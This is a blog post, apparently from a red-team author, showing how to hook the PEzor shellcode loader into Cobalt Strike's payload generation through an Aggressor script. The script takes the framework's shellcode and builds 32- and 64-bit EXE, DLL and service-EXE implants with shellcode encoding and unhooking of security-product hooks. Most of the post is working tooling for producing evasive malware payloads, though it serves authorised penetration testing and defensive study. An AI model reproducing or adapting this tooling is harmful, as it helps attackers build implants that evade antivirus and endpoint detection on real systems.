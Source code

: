 ```yaml
---
layout: default
---
```


_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to generate custom artifacts that will be seamlessly used by the framework when generating payloads on the fly.

![PEzor v2.1.0](../assets/images/pezor-v2.1.0.jpg "PEzor v2.1.0")

## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't be nice if we can reuse a similar mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are simply mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
